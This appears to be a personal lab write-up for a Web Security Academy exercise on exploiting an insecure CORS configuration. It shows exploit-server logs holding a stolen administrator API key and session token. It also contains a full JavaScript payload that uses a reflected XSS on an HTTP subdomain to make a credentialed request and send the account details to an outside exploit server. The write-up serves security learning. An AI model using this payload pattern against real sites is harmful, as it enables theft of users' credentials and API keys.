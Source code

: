 

```
10.0.3.102      2022-12-23 15:24:38 +0000 "GET //log?key={%20%20%22username%22:%20%22administrator%22,%20%20%22email%22:%20%22%22,%20%20%22apikey%22:%20%223KleRfFmpMhcZy97YSon5ydTKrSonFit%22,%20%20%22sessions%22:%20[%20%20%20%20%22Tm2A1FhI6vyh8UwC9YQPv21eHa2jxLJR%22%20%20]} HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"

```


```
10.0.3.102      2022-12-23 15:24:38  0000 "GET //log?key={  "username": "administrator",  "email": "",  "apikey": "3KleRfFmpMhcZy97YSon5ydTKrSonFit",  "sessions": [    "Tm2A1FhI6vyh8UwC9YQPv21eHa2jxLJR"  ]} HTTP/1.1" 404 "User-Agent: Mozilla/5.0 (Victim) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/108.0.5359.124 Safari/537.36"

```

## Lab: CORS vulnerability with trusted insecure protocols

 This website has an insecure CORS configuration in that it trusts all subdomains regardless of the protocol.

To solve the lab, craft some JavaScript that uses CORS to retrieve the administrator's API key and upload the code to your exploit server. The lab is solved when you successfully submit the administrator's API key.

You can log in to your own account using the following credentials: wiener:peter 


At first looking around the site you can see that there is a subdomain called 

`http://stock.0ad000e30444e60bc113fe86002f000c.web-security-academy.net/?productId=1&storeId=1`


When replacing the productId parameter we can see its reflected:

`https://stock.0ad000e30444e60bc113fe86002f000c.web-security-academy.net/?productId=test&storeId=1`

```
<html>
<head></head>
<body>
<h4>ERROR</h4>
Invalid product ID: test
</body>
</html>
```


We also discovered this is vulnerable to XSS. Using that information we can insert the vulnerable subdomain in the origin which will give the subdomain access to the main domains apikey. We can then exploit the subdomain. While I understood this theoretically I did need a little help with the payload.


```
<script>
    document.location="http://stock.0ad000e30444e60bc113fe86002f000c.web-security-academy.net/?productId=11<script>var req = new XMLHttpRequest(); req.onload = reqListener; req.open('get','https://0ad000e30444e60bc113fe86002f000c.web-security-academy.net/accountDetails',true); req.withCredentials = true;req.send();function reqListener() {location='https://exploit-0aff00d30408e638c180fd0d01ff0033.exploit-server.net/log?key='%2bthis.responseText; };%3c/script>&storeId=1"
</script>

```
